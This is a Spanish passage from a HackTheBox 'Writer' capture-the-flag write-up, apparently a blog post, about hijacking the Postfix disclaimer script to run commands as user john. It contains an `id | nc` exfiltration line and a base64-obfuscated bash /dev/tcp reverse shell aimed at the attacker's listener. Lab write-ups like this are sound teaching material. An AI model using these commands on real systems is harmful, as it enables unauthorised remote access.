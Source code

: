 Así que ahora si intentemos cositas, modifiquemos el archivo para que una vez sea ejecutado nos envíe (a un puerto donde estaremos escuchando) el `id` del usuario que ejecuta el **disclaimer** (debería ser `john`), el objeto quedaría así:

> La IP me cambio por un problema que tuve con la VPN :P

```bash
kyle@writer:/etc/postfix$ cat disclaimer
#!/bin/sh
...
id | nc 10.10.14.6 4433
...
```

> El archivo es regenerado cada 2 minutos, así que hay que correeeeeeer (o automatizar todo (tarea pa la casita))

Sencillito, ahora pongámonos en escucha sobre ese puerto en nuestra máquina: `nc -lvp 4433`.

Y solo nos quedaría enviar el mail, usaré `telnet`:

* [5 Ways to Send Email From Linux Command Line](https://tecadmin.net/ways-to-send-email-from-linux-command-line/).

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/writer/361bash_kyleSH_telnet_sendMail.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

Al parecer no funciona, peeeeeeeeeero si esperamos unos segundoooooooooooooooooooos:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/writer/361bash_nc_idJOHN_fromDisclaimer.png" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 100%;"/>

Peee eee eeerrrr feccctooooo, tenemos ejecución remota de comandos como el usuario `john`, obtengamos una **Shell**:

```bash
❱ echo "bash -i >& /dev/tcp/10.10.14.6/4433 0>&1" | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42LzQ0MzMgMD4mMQo=
```

```bash
kyle@writer:/etc/postfix$ cat disclaimer
#!/bin/sh
...
echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42LzQ0MzMgMD4mMQo= | base64 -d | bash
...
```

```bash
❱ nc -lvp 4433
listening on [any] 4433 ...
```

```bash
kyle@writer:/etc/postfix$ telnet localhost smtp
...
# Enviamos mail
```

Yyyyyyyyyyyyyyy:
